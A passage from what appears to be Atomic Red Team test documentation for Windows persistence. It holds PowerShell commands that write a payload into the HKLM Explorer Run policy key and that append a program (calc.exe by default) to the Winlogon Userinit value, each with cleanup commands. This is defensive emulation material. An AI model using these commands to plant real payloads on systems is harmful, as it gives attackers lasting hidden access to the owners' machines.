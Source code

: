 ```powershell
if (!(Test-Path -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run")){
  New-Item -ItemType Key -Path  "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run"
}
Set-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" -Name "#{target_key_value_name}" -Value "#{payload}"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" -Name "#{target_key_value_name}"
```

<br/>
<br/>

## Atomic Test #14 - HKLM - Append Command to Winlogon Userinit KEY Value

This test will append a command to the HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit value to launch calc.exe on boot.

- Requires reboot

**Supported Platforms:** Windows

**auto_generated_guid:** f7fab6cc-8ece-4ca7-a0f1-30a22fccd374

#### Inputs:

| Name    | Description | Type   | Default Value                            |
| ------- | ----------- | ------ | ---------------------------------------- |
| payload | what to run | string | C:&#92;Windows&#92;System32&#92;calc.exe |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Userinit");
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Userinit-backup" -Value "$oldvalue";
$newvalue = $oldvalue + " #{payload}";
Set-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Userinit" -Value "$newvalue"
```

#### Cleanup Commands:

```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name 'Userinit-backup');
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Userinit" -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name 'Userinit-backup'
```
